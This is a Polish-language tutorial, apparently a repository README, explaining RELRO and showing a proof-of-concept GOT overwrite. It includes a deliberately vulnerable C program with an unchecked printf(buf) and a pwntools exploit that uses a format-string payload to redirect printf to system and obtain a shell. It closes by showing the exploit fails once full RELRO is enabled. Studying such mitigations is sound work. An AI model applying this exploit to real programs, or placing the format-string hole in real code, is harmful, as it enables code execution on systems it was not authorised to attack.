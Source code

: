# RERLO

### 1.1 Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielnej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker dostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest defaultowym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT.

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 1.2 Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyje exploitu typu `format string` ,który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji %3$x.

![img_1.png](img/img_1.png)

Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą cześć adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit odpalany z włączonym relro nie daje żadnego skutku - adres got znajduję się w innym miejscu. W przypadku próby nadpisania tego miejsca następuję `SIGSEGV` - chcieliśmy nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.

![img_6.png](img/img_6.png)

